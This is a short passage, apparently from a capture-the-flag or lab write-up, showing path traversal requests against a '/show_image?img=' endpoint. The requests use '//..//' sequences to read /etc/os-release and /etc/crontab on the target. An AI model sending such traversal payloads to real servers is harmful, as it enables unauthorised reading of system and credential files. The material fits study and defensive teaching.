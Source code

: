 ![](./IMG/3.png)
- Check the host information(```/etc/os-release```)
```
/show_image?img=//..//..//..//..//..//..//etc//os-release
```

![](./IMG/4.png)
- Check crontab
```
/show_image?img=//..//..//..//..//..//..//etc//crontab
```

